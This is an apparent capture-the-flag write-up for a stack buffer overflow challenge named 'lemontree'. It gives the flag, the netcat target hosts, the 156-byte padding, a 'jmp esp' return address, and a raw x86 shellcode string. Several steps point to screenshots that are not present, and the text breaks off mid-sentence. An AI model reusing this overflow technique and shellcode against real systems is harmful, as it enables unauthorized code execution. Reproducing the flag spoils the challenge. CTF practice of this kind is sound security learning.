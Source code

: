 # Flag

> Hacking-Arena{Just_a_yellow_lemon_tree}

# Prompt

> I wonder how, I wonder why you cannot solve this binary.

> nc koala2.hackingarena.no 805 nc koala.hackingarena.com 805 (same binary)

# Solution

Determine the necessary size of padding for the attached binary.

gdb ./lemontree

Run binary file and attempt to crash when output equals "... , But nothing ever".

![[Pasted image 20241115171527.png]]

Padding is equal to 156, so I proceed by finding the return address of the binary file (jmp esp)

Edit template.py to match padding of 156
![[Pasted image 20241115172120.png]]

![[Pasted image 20241115172244.png]]

Run template.py and debug using GDB, then search and find 'jmp esp'

![[Pasted image 20241115172508.png]]

Run template.py, debug and search for 'jmp esp' using pwndbg:

search --asm 'jmp esp'

![[Pasted image 20241115172555.png]]

Add a payload for template.py:
payload+= p32(0x8049243)

Edit template.py and include 'jmp esp' as a payload.

![[Pasted image 20241115172716.png]]

Add another payload, the same payload from the strawberry CTF.
payload+='\x99\x52\x58\x52\xbf\xb7\x97\x39\x34\x01\xff\x57\xbf\x97\x17\xb1\x34\x01\xff\x47\x57\x89\xe3\x52\x53\x89\xe1\xb0\x63\x2c\x58\x81\xef\x62\xae\x61\x69\x57\xff\xd4'

Additionally, add the payload used in Straw

# Additional Info

Additional solution / info